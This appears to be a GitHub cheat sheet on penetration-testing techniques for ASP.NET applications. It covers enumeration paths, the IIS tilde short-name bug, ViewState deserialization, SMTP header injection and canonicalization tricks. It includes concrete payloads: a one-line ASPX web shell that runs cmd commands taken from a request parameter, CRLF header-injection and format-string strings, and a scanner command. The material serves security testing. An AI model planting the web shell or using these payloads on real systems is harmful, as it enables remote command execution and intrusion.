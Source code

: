 # ASP.NET Security Testing Techniques
- This blog is intended for ethical activities so please use it for ethical testing only.
- I wanted this blog to be an exhaustive list of all vulnerabilities and tricks that are mentioned on the web to be of a special focus in ASP.NET applications, I myself have seen some but not all of them. I wrote it as simple and as direct as possible to be available for everyone to use it, despite the level of experience, and I hope it would be of great help for anyone who needs a starting point to test .NET applications -whether you are a penetration tester or a bug bounty hunter.
- Any contribution is very appreciated, as well as any advice or comment.

==================================================================================
## ENUMERATION
No need for me to say how important is enumeration! I list herein _additional_ directories and extentions to look for in a .NET application.
### Directories
  - C:\Windows\System32
  - \\Host\C$\Windows\System32
  - \\.\C:\Windows\System32
  - \\?\C:\Windows\System32
  - \\?\UNC\Host\C$\Windows\System32
  - C:\Windows\hh.exe == C:\Windows:$I30:$INDEX_ALLOCATION\hh.exe
  - C:\Windows\notepad.exe == C:\Windows\notepad.exe::$DATA
  - FileName.aspx == FileName.aspx:.jpg
  - http://hostname/*Resource.axd?d=<resourceId\>&t=\<timestamp\>

Also take a look at the following reminders before you start your directory bruteforce:
  - Reserved: NUL, CON, AUX, PRN, COM, LPT
  - Endings: name == name… == name \\\
  - Case insensitivity
### Files Extensions
  - .asp
  - .aspx
  - .ashx
  - .xsd
  - .disco
  - .discomap
  - .wsdl
  - .wadl
  - .asmx
  - .xml
  - .config
  - .zip
  - .txt
  
## TECHNIQUES AND TRICKS
I wanted this list to be an exhaustive list of all vulnerabilities that are mentioned on the web to be of a special focus in ASP.NET applications, I myself have seen some and not all of them, and I guess they are common among .NET in general -you will recognize some of them to be valid for all types of backends too but I was not as keen to mention all of those.
### Short Names (IIS tilde bug)
The vulnerability is caused by a tilde character "~" in a GET or OPTIONS request, which could allow remote attackers to disclose 8.3 filenames.
[IIS-ShortName-Scanner](https://github.com/irsdl/IIS-ShortName-Scanner). Command: `java –jar iis_shortname_scanner.jar [2=Show_Progress] [20=Threads] [Target_URL] > [OutFile]`
<br>PS. ignore “global”, “master”, “default”, “aspnet” from results.
### Viewstate
The ViewState is a mechanism built into the ASP.NET platform for persisting elements of the user interface and other data across successive requests. The data to be persisted is serialized by the server and transmitted via a hidden form field. When it is posted back to the server, the ViewState parameter is deserialized and the data is retrieved. An attacker can modify the contents of the ViewState and cause arbitrary data to be deserialized and processed by the server. An attacker may be able to execute arbitrary code on the server by supplying a gadget chain. Also, if the ViewState contains any items that are critical to the server's processing of the request, then this may result in a direct security exposure.
Looking further into this vulnerability you would notice that it has many possible variations. As a simple first step, you can start by testing if the ViewState is not encrypted simply by finding any ViewState decoder on the web (e.g. http://viewstatedecoder.azurewebsites.net/)
### Remote debugging
Since ASP.NET is a compiled application, it has certain debugging features. Microsoft allows you to use a remote debugger to work on a debug version of the application.  If this port is open on the Internet and is protected by a simple password, or there is no password at all, then it is possible to pick up a debugger session.
### SMTP Header Injection
No validation of the value that falls in the “To” header, it is possible to redirect the letter to another recipient. But that would be too simple and obvious, so validation occurs already at the .Net level. However, if you introduce a new Reply-To header — the answer address, many forms such as “Forgotten Password” often take the sending address from it, thus it is enough to embed carriage return and line feed characters and get the workload.

>From: mail@mail.mail (R.T. Hood)<br>
>To: mail@mail.mail/r/nReply-to:mail@mail.mail<br>
>Date: Tue, Mar 18199714:36:14 PST<br>
>Message-Id: <mail@mail.mail><br>
>...<br>
>В итоге будет внедрен новый заголовок:<br>
>From: mail@mail.mail (R.T. Hood)<br>
>To: mail@mail.mail<br>
>Reply-To: mail@mail.mail<br>
>Date: Tue, Mar 18199714:36:14 PST<br>
>Message-Id: <mail@mail.mail><br>
### Additional .NET-Specific Tricks
1. Canonicalization attack
   - Using environment variables to represent path - e.g. %windir%notepad.exe
   - Trailing “.” - e.g. C:wondowsnotepad.exe.
   - Create file - \\URL\<name>		\\URL\pipe\<name>
2. LINQ injection
3. Hash collusion: https://github.com/HybrisDisaster/aspHashDoS
### Not-.NET-Specific
1. XXE in DocX files
2. Padding Oracle (cookies / ViewState …)
3. Injection (SQL with SQLNinja, js, HTML…)
4. Format strings attack - e.g %n%n%n%n%n%n%n%n  ||  %s%s%s%s%s%s%s%s%s  ||  %d%d%d%d%d%d%d%d
5. Serialization
6. LFI - simple webshell `<%@ Page Language="C#" %> <%@ Import Namespace="System.Diagnostics" %> <%= Process.Start( new ProcessStartInfo( "cmd","/c " + Request["c"] ) { UseShellExecute = false, RedirectStandardOutput = true } ).StandardOutput.ReadToEnd() %>`
7. Trace method
8. Session fixation 
9. Replay attacks
10. CORS
 
## References
- https://www.youtube.com/watch?v=HrJW6Y9kHC4 
- https://cheatsheetseries.owasp.org/cheatsheets/DotNet_Security_Cheat_Sheet.html
- https://resources.infosecinstitute.com/topic/net-penetration-testing-test-case-cheat-sheet/
- https://www.business2community.com/cybersecurity/9-ways-hackers-exploit-asp-net-and-how-to-prevent-them-02353604
- Positive technologies [PDF](https://www.google.com/url?sa=t&rct=j&q=&esrc=s&source=web&cd=&cad=rja&uact=8&ved=2ahUKEwiR5K7i-5T0AhUKh_0HHQM2CW0QFnoECAMQAQ&url=https%3A%2F%2Fwww.ptsecurity.com%2Fupload%2Fcorporate%2Fru-ru%2Fwebinars%2Fics%2FV.Kochetkov_breaking_ASP.NET.pdf&usg=AOvVaw1BQOnt5w4XQizf5Tosp201)
